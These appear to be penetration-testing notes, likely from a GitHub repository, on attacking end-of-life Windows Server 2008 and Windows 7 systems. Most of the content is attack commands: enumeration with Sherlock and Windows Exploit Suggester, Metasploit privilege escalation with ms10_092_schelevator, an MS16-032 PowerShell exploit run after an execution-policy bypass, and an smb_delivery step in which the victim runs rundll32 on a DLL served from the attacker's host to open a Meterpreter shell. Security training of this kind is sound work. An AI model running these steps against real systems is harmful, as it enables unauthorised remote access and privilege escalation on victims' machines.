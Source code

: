 # Dealing with End of Life Systems

In this section will cover:
- Windows Server
- Windows Desktop Versions

## Windows Server

Windows Server 2008/2008 R2 were made end-of-life on January 14, 2020. Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Server. It is not very common to encounter Server 2008 during an external penetration test, but I often encounter it during internal assessments.

**Querying Current Patch Level**
````
> wmic qfe
````
A quick Google search of the last installed hotfix shows us that this system is very far out of date.

**Running Sherlock**
````
> Set-ExecutionPolicy bypass -Scope process

# Running Sherlock
> Import-Module .\Sherlock.ps1
> Find-AllVulns
````
**Searching for Local Privilege Escalation Exploit**
````
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
> set session <id>

# Migrating to a 64-bit Process
> ps
> migrate <PID>

# Priv Esc
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost <Our_IP>
msf6 exploit(windows/local/ms10_092_schelevator) > set lport <Our_Port>
msf6 exploit(windows/local/ms10_092_schelevator) > exploit
````
**Obtaining a Meterpreter Shell**
````
# Our Machine
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery
msf6 exploit(windows/smb/smb_delivery) > show targets
msf6 exploit(windows/smb/smb_delivery) > set target 0 (DLL)
msf6 exploit(windows/smb/smb_delivery) > set lhost <Our_IP>
msf6 exploit(windows/smb/smb_delivery) > set lport <Our_Port>
msf6 exploit(windows/smb/smb_delivery) > set SRVHOST <Our_IP>

# Victim Machine
> rundll32.exe \\<Our_IP>\lEUZam\test.dll,0
````

## Windows Desktop Versions

Windows 7 was made end-of-life on January 14, 2020, but is still in use in many environments.

Windows 7 vs. Newer Versions
Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Desktop. The table below shows some notable differences between Windows 7 and Windows 10.

| Feature                       | Windows 7 | Windows 10 |
| ----------------------------- | --------- | ---------- |
| Microsoft Password (MFA)      |           | X          |
| BitLocker                     | Partial   | X          |
| Credential Guard              |           | X          |
| Remote Credential Guard       |           | X          |
| Device Guard (code integrity) |           | X          |
| AppLocker                     | Partial   | X          |
| Windows Defender              | Partial   | X          |
| Control Flow Guard            |           | X          |

**Gathering Systeminfo Command Output**
````
> systeminfo
````
**Running Windows Exploit Suggester**
````
$ sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
$ sudo tar -xf setuptools-2.0.tar.gz
$ cd setuptools-2.0/
$ sudo python2.7 setup.py install

$ sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
$ sudo tar -xf xlrd-1.0.0.tar.gz
$ cd xlrd-1.0.0/
$ sudo python2.7 setup.py install

$ sudo python2.7 windows-exploit-suggester.py --update
$ python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
````
Suppose we have obtained a Meterpreter shell on our target using the Metasploit framework. In that case, we can also use this local exploit suggester module which will help us quickly find any potential privilege escalation vectors and run them within Metasploit should any module exist.

**Exploiting MS16-032 with PowerShell PoC**
````
# Bypass Policy
> Set-ExecutionPolicy bypass -scope process

# Execute Exploit
> Import-Module .\MS16-032_poc.ps1
> Invoke-MS16-032
````

